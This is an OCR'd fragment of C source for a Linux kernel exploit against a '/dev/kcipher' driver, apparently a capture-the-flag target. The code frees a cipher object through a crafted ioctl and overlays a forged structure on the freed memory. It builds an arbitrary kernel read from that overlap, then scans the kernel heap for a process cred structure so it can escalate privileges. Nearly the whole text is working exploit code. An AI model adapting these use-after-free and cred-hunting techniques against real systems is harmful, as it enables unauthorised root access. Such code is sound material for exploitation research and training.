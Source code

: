 ```
    uint64_t start = (kheap & ~0xfffff) + 0x100000;
    printf("[*] Searching for cred on kheap, start=0x%llx\n", start);

    prompt();
    uint32_t dump[0x2000];
    arbread(start, &dump, sizeof(dump));
    for (size_t i = 0; i < sizeof(dump) / sizeof(dump[0]); ++i) {
        uint64_t curptr = start + i * 4;
        printf("0x%llx: 0x%llx\n", curptr, dump[i]);
        if (dump[i] == 0x000003e8) {
            printf("[*] Found possibly cred: 0x%llx\n", curptr);
            cred_addr = curptr & ~0xf;
            return;
        }
    }
    exit(1);
}

static int cfd_next;

void basic_setup() {
    printf("sizeof(kcipher)=0x%x\n", sizeof(struct kcipher)); // basic eye-check in runtime
    fd = open("/dev/kcipher", O_RDONLY);
    printf("fd: %d\n", fd);
    cfd_next = fd + 1;

    prompt();

    struct kcipher_req kciph = {
        .ciph_id = 1, // xor
        .byt = 0x41, // does not change the contents
    };

    puts("[*] setup cfd[0]");
    EXIT_ON_ERR(ioctl(fd, -0x12411100, &kciph) < 0); // should be ok
    cfd[0] = cfd_next++; // predicted

    struct kcipher fake = {
        .ciph_id = 1, // xor
        .byt = 0x43,  // for read: does not change contents
        .size = 0x1000,  // size_t
        .str = 0x0, // arb addr, will be overwritten
        .lock = 0x0
    };

    // kfree(kciph)
    puts("[*] setup cfd[1], trigger kfree");
    kciph.ciph_id = 5; // trigger kfree in device_ioctl
    ioctl(fd, -0x12411100, &kciph); // returns <0 but who gives a damn
    cfd[1] = cfd_next++; // predicted

    xor((char*)&fake, 0x41, sizeof(fake));
    puts("[*] set cfd[0]->str := cfd[1], overwrite `struct kcipher` of cfd[1]");
    EXIT_ON_ERR(write(cfd[0], &fake, sizeof(fake)) < 0);
    
    struct kcipher kcipher_cfd1;
    puts("[*] read (cfd[0]): de-xor cfd[1]");
    prompt();
    EXIT_ON_ERR(read(cfd[0], &kcipher_cfd1, sizeof(kcipher_cfd1)) < 0);

    puts("[*] setup cfd[1]->str := cfd[2]");
    kciph.ciph_id = 5; // trigger kfree in device_ioctl
    ioctl(fd, -0x12411100, &kciph); // returns <0 but who gives a damn
```